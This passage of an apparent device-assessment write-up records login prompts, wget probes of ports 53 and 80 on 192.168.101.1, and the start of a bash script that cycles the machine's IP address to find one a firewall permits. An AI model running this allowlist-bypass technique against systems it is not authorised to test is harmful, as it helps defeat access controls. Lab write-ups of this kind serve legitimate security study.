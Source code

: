 	Password is incorrect
	Password: 
	Password is incorrect
	Password: 
	Login timed out after 60 seconds
	Connection closed by foreign host.
    ```
* There's a unbound tcp port `53`, although it shows unbound but I suspect that there's a firewall that controls communication over this port, we confirm our guess by connecting to host `192.168.101.1` over port `53` and then analyzing the traffic in wireshark:
	![plot](./photos/wshark.png)
  ```
	$ wget 192.168.101.1:53
	--2024-02-17 13:23:36--  http://192.168.101.1:53/
	Connecting to 192.168.101.1:53... connected.
	HTTP request sent, awaiting response... No data received.
	Retrying.
	
	--2024-02-17 13:26:07--  (try: 2)  http://192.168.101.1:53/
	Connecting to 192.168.101.1:53... connected.
	HTTP request sent, awaiting response..
  ```

* There is a web server listening for requests on port `80`, let's try to connect to it.
  ```
	$ wget 192.168.101.1:80
	--2024-02-17 12:35:44--  http://192.168.101.1:80/
	Connecting to 192.168.101.1:80... failed: Connection refused.
  ```
  Now, as we can see, there's indeed a firewall active on this device. But how can we access the webpage for this device? Let's make a guess that access to this page is restricted to certain IP(s). I have written a bash snippet to brute force the IP, which is permitted to access the webpage.
  ```
	$ cat bruteip.sh 
	#!/bin/bash
	
	x=`ifconfig | sed -nr 's/eth([0-9]):.*/\1/p'`
	
	for ((i = 1; i <= 255; i++)); do
	        sudo ip address flush dev eth${x}
	        sudo ip route flush dev eth${x}
  ```